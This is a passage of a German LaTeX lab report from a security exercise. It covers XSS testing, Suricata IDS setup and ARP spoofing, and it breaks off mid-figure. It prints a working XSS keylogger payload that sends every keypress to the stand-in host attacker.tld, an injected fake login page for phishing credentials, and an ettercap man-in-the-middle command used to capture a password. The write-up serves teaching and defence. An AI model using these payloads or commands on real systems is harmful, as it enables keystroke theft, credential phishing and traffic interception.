	
\includegraphics[width=14cm]{xss-img-tag-injection-success-2.png}
	\caption{Erfolgreiche XSS-Ausführung mit img-Tag, Zoom auf das Alert-Fenster}
	\label{fig:xss-img-tag-injection-success-2}
\end{figure}

\noindent Wie in der Abbildung zu sehen ist, war diese Methode erfolgreich und löste wie erwartet ein Alert-Fenster aus.

\noindent Um die Schwere der XSS-Schwachstelle zu verdeutlichen, wurden zwei Angriffsvektoren getestet.

\noindent Zunächst wurde ein Keylogger eingesetzt, der jeden Tastendruck an einen externen Server sendet:
\begin{lstlisting}[breaklines]
	<img src="" onerror="document.addEventListener('keypress', function(e) { fetch('http://attacker.tld?key=' + String.fromCharCode(e.which)); }); this.remove();">
\end{lstlisting}

\noindent Für diese Demonstration wurde die fiktive Adresse \lstinline|attacker.tld| als Zielserver verwendet.

\noindent Der resultierende Netzwerkverkehr, der die gesendeten Tastendrücke zeigt, ist in der folgenden Abbildung dargestellt:

\begin{figure}[H]
	\centering
	
\includegraphics[width=15cm]{xss-keylogger-network-traffic.png}
	\caption{Netzwerkverkehr des XSS-Keyloggers}
	\label{fig:xss-keylogger-network-traffic}
\end{figure}

\begin{figure}[H]
	\centering
	
\includegraphics[width=17cm]{xss-keylogger-network-traffic-2.png}
	\caption{Netzwerkverkehr des XSS-Keyloggers, Zoom auf den Netzwerkverkehr}
	\label{fig:xss-keylogger-network-traffic-2}
\end{figure}

\noindent Dann wurde eine Phishing-Seite imitiert, die eine legitime Website nachahmt, mit dem Ziel Benutzerdaten zu stehlen:
\begin{lstlisting}[breaklines]
	<img src="" onerror="(function(){
		document.body.innerHTML = `
		<div style='position: fixed; top: 0; left: 0; width: 100%; height: 100%; background-color: #f0f2f5; display: flex; justify-content: center; align-items: center;'>
		<div style='background-color: #fff; padding: 20px; border-radius: 8px; box-shadow: 0 2px 4px rgba(0,0,0,0.1); width: 360px; text-align: center;'>
		<h2 style='color: #1877f2; font-family: Helvetica, Arial, sans-serif; margin-bottom: 20px;'>Website</h2>
		<form>
		<input type='text' placeholder='Email or Phone Number' style='width: 100%; padding: 10px; margin-bottom: 10px; border: 1px solid #ddd; border-radius: 4px; box-sizing: border-box;'>
		<input type='password' placeholder='Password' style='width: 100%; padding: 10px; margin-bottom: 20px; border: 1px solid #ddd; border-radius: 4px; box-sizing: border-box;'>
		<button type='submit' style='width: 100%; padding: 10px; background-color: #1877f2; color: white; border: none; border-radius: 4px; font-size: 16px; cursor: pointer;'>Log In</button>
		</form>
		<div style='margin-top: 10px;'>
		<a href='#' style='color: #1877f2; font-size: 14px; text-decoration: none;'>Forgotten password?</a>
		</div>
		</div>
		</div>
		`;
	}())">
\end{lstlisting}

\noindent Diese Injektion ersetzt den gesamten Inhalt der Webseite durch eine Login-Maske, die Benutzer zur Eingabe ihrer Anmeldedaten verleiten könnte. Das Ergebnis dieser Injektion ist in der folgenden Abbildung dargestellt:

\begin{figure}[H]
	\centering
	
\includegraphics[width=17cm]{xss-phishing-page-injection.png}
	\caption{Darstellung der XSS-injizierten Phishing-Seite}
	\label{fig:xss-phishing-page-injection}
\end{figure}

\noindent Wie man sehen kann, wurde die ursprüngliche Webseite vollständig durch eine gefälschte Login-Maske ersetzt. Dies verdeutlicht das erhebliche Risiko, das von XSS-Schwachstellen ausgeht.

\FloatBarrier

\newpage
\section{Aufgabenblatt 3}
Im folgenden wird die Konfiguration des Intrusion Detection System (IDS) beschrieben. Es wurde sich für das IDS Suricata entschieden, da bereits Vorerfahrung bestanden.

\subsection{Konfiguration des Intrusion Detection Systems}\label{config-ids}
Bei der Installation wurde der Anleitung des Herstellers \cite{suricata-quickstart} befolgt. \\
In der Konfigurationsdatei \lstinline[breaklines]|/etc/suricata/suricata.yaml| wurde das zu überwachende Interface auf \lstinline[breaklines]|eth0| gestellt. Es ergeben sich folgende Capture Settings:
\begin{lstlisting}[breaklines]
	af-packet:
	- interface: eth0
	cluster-id: 99
	cluster-type: cluster_flow
	defrag: yes
	use-mmap: yes
	tpacket-v3: yes
\end{lstlisting}
Darüber hinaus wurden die aktuellen Regeln,  mittels \lstinline[breaklines]|sudo suricata-update|, heruntergeladen, installiert und aktiviert \cite{suricata-rulemanagement}. \\
Um diese zu aktivieren wurde gemäß der Anleitung des Herstellers der Pfad der Regeln, in der Datei \lstinline[breaklines]|/etc/suricata/suricata.yaml| geändert auf \\ \lstinline[breaklines]|default-rule-path: /var/lib/suricata/rules|. \\ \\
Weitere Konfiguration wurden nicht durchgeführt. \\ \\
Das IDS wurde anschließend getestet. Dafür wurde der Befehl
\lstinline[breaklines]|curl http://testmynids.org/uid/index.html|
ausgeführt. Dadurch wurde eine statische HTML-Datei aufgerufen mit dem Inhalt 
\lstinline[breaklines]|uid=0(root) gid=0(root) groups=0(root)| 
Dieser String stellt eine mögliche Ausgabe des \lstinline[breaklines]|id| Befehls dar, welcher genutzt werden kann um den derzeitigen Nutzer und die Gruppen des Nutzers zu erhalten. \\ \\
Das IDS sollte hier ausschlagen, da die Ausgabe bedeuten würde, das jemand remote den \lstinline[breaklines]|id| Befehl als root ausgeführt hat, was bedeuten würde das jemand vollen Zugriff auf das System hat. \\ \\
Ob das IDS dies erkannt hat wurde mit dem Befehl
\lstinline[breaklines]|sudo tail /var/log/suricata/fast.log| 
überprüft. Die \lstinline[breaklines]|fast.log| Datei enthält die Warnungen des IDS. 
Die letzte Zeile der Datei war \lstinline[breaklines]|[1:2100498:7] GPL ATTACK_RESPONSE id check returned root [**] [Classification: Potentially Bad Traffic] [Priority: 2] {TCP} <ip> -> 192.168.0.220:<port>|. Dies zeigt das der Datenverkehr als potenzieller Datenabfluss erkannt wurde.

\subsection{ARP Spoofing}
Beim ARP-SPoofing wird das ARP-Protkoll genutzt um den Datenverkehr nicht zum eigentlichen Ziel, sondern zum Angreifer, zu schicken. Das ARP-Protokoll ist dafür zuständig IP-Adresse, welche an sich dynamisch sind, einer statischen MAC-Adresse zuzuordnen. Diese Zuordnung passiert im LAN, im Local Area Network. \\
Beim ARP-Spoofing weisen wir die IP des Ziels, der MAC-Adresse des Angreifers zu. Alle Pakete die an die IP des Ziels gesendet werden, werden also an den Angreifer gesendet. Der Angreifer kann die Paket an das eigentliche Ziel weiterleiten, wodurch der Datenverkehr ununterbrochen funktioniert \cite{what-is-arp-spoofing}. \\ \\
In unserem Fall ist am sinnvollsten sich zwischen der Firewall und dem Webserver zu platzieren, und dort den Verkehr mitzuschneiden, da man dort alle Pakete erhält. \\ \\
Für das ARP-Spoofing wurde die CLI Version des Tools \lstinline[breaklines]|ettercap| genutzt. Das Tool wurde mit dem Befehl \lstinline[breaklines]|sudo ettercap -T -M arp /192.168.0.220// /192.168.0.221//| aufgerufen \cite{ettercap-manual}:
\begin{enumerate}
	\item \lstinline[breaklines]|-T|: Nutze die einfache Textausgabe
	\item \lstinline[breaklines]|-M arp|: Führe einen Man-in-the-Middle (MITM) Angriff aus, nutze dafür ARP
	\item \lstinline[breaklines]|/192.168.0.220//|: Nutze die Firewall als Ziel 1
	\item \lstinline[breaklines]|/192.168.0.221//|: Nutze den Webserver als Ziel 2
\end{enumerate}
Folgende Screenshots zeigen die ARP-Tabellen der einzelnen Geräte, sowie die MAC-Adresse der Kali-Maschine: \\ \\
\begin{figure}[!ht]
	\centering
	\includegraphics[width=14cm]{arp-firewall.png}
	\caption{ARP-Tabelle der Firewall}
	\label{fig:arp-firewall}
\end{figure}
\begin{figure}[!ht]
	\centering
	\includegraphics[width=14cm]{arp-webserver.png}
	\caption{ARP-Tabelle des Webservers}
	\label{fig:arp-webserver}
\end{figure}
\begin{figure}[!ht]
	\centering
	\includegraphics[width=14cm]{arp-mac-kali.png}
	\caption{MAC-Adresse der Kali-Maschine}
	\label{fig:arp-mac-kali}
\end{figure} 
\\ \\
Man kann sehen das die IP-Adresse der Firewall und des Webservers jeweils in den jeweiligen Screenshots die MAC-Adresse der Kali-Maschine haben. Dies bedeutet das Pakete welche von der Firewall aus zum Webserver gesendet werden, an die Kali-Maschine gesendet werden, das Gleiche gilt auch für Pakete die vom Webserver an die Firewall gesendet werden.
\\ \\
Es war möglich eine Anmeldung auf dem Webserver zu lesen und das Passwort des Benutzers zu erhalten:
\begin{figure}[!ht]
	\centering
